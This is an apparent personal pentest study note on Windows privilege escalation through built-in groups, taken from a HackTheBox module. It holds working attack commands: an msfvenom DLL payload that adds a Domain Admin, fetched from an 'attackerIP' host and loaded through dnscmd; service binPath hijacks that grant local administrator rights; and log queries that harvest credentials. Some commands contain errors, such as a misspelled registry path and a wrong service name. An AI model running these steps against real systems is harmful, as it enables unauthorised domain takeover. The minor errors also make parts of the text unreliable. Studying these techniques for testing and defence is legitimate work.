 - **tags:** #windows #privesc 
- ------------------
# Backup Operators
Membership of this group grants its members the `SeBackup` and `SeRestore` privileges. The [[Windows User Privileges Privilege Escalation#SeBackupPrivilege|SeBackupPrivilege]] allows us to traverse any folder and list the folder contents. This will let us copy a file from a folder, even if there is no access control entry (ACE) for us in the folder's access control list (ACL). 
# Event Log Readers
Administrators or members of the [Event Log Readers](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-R2-and-2012/dn579255(v=ws.11)?redirectedfrom=MSDN#event-log-readers) have permission to access the Windows Event Log. If process creation events are logged we can run the following on an attempt to retrieve credentials:
```shell
wevtutil qe Security /rd:True /f:Text | findstr "\/user"
```
# DnsAdmins
Members of the [DnsAdmins](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#dnsadmins) group have access to DNS information on the network. The **Windows DNS service supports custom plugins** and can call functions from them to resolve name queries that are not in the scope of any locally hosted DNS zones.
## Malicious DLL Plugin
### Issue Summary
- According to Microsoft protocol specification, the **ServerLevelPluginDll** operation *enables us to load a dll of our choosing* (with no verification of dll path).
- `dnscmd.exe` already implements this option (Available to `DNSAdmins`)
- *Restarting the DNS service will load the DLL in this path*
- **The DLL simply needs to be available** on a network share that the Domain Controller’s computer account can access or the DC itself
#### External resources
[Detailed Article on how to Leverage DNSAdmins and ServerLevelPluginDLL](https://adsecurity.org/?p=4064)
### Requirements
- User member of `DnsAdmins` Domain Group
- User with the ability of restarting the DNS service

**Note:** Membership in the DnsAdmins group doesn't give the ability to restart the DNS service, but this is conceivably something that sysadmins might permit DNS admins to do.
### Steps
- Create a malicious DLL:
```bash
msfvenom -p windows/x64/exec cmd='net group "Domain Admins" netadm /add /domain' -f dll -o useradd.dll
```
- Transfer DLL to DNS Server:
```bash
# start web server
python3 -m http.server 80

# on the DNS Server
wget "http://attackerIP:80/useradd.dll" -OutFile C:\Users\netadm\Desktop\useradd.dll
```
**Note:** You could alternatively place the DLL on a network share available to the DNS Server.
- Use `dnscmd.exe` to load the DLL onto the *ServerLevelPluginDLL*:
```shell
dnscmd /config /serverlevelplugindll C:\Users\netadm\Desktop\useradd.dll
```
- Restart the DNS Service:
```shell
# on advance we can use tools like PsService from SysInternals t check if we are indeed allowed to restart the service
# C:\Tools\PsService.exe security dns
# stop, query status, start 
sc stop dns
sc query dns
sc start dns
```
- If all went smoothly our user should now belong to the `Domain Admins` domain group
```shell
net group "Domain Admins" /dom
```
## Cleaning Up
```shell
# checking that the DLL payload is indeed in the ServerPluginDLL registry data
reg query HKLM\System\CurrentContorlSet\Services\DNS\Parameters
# deleting the ServerLevelPluginDll registry value
reg delete HKLM\System\CurrentContorlSet\Services\DNS\Parameters /v ServerLevelPluginDll
# restarting dns service
sc query dns
sc start dns
```
# Hyper-V Administrators
Hyper-V Administrators have full access to Hyper-V, which can be exploited to gain control over virtualized Domain Controllers. This includes cloning live DCs and extracting NTLM hashes from the NTDS.dit file.
# Server Operators
The *Server Operators* group allows members to *administer Windows servers without needing assignment of Domain Admin privileges*. It is a very highly privileged group that can log in locally to servers, including Domain Controllers.

Membership of this group confers the powerful [[Windows User Privileges Privilege Escalation#SeBackupPrivilege|SeBackupPrivilege]] and `SeRestorePrivilege` privileges and the **ability to control local services**.
## Exploiting Local Services
Since any member of this LocalGroup is allowed to modify local services, we can leverage our poisition by modifying the `binPath` of a service running as `NT Authority\System` such as *AppReadiness* service:
```shell
# displays service configuration
sc qc AppReadiness
# Will indeed show that member of Server Operators group have full Access
PsService.exe security AppReadiness
# Modify the service binpath to add our user to the loac admins group
sc config AppReadiness binPath= "C:\Windows\System32\cmd.exe /c net localgroup Administrators server_adm /add"
sc start WSearch
```
### Trying With Other Services
The *AppReadiness* service was the one suggested by HackTheBox in the Windows Privesc Module. However let's try doing it with any other service, for example, the *WSearch* service:
`PsService.exe` reveals that the service is indeed started by `SYSTEM` and that our user has Full Modification Access since it belongs to the Server Operators group. Now we should be fine changing the binPath value an starting the service. However the service won't start. That's because **we also need to modify the START_TYPE value to the DEMAND type.**
```shell
sc config WSearch start= "demand"
```
If we try to start our service now, we won't have any problem and the payload will get executed!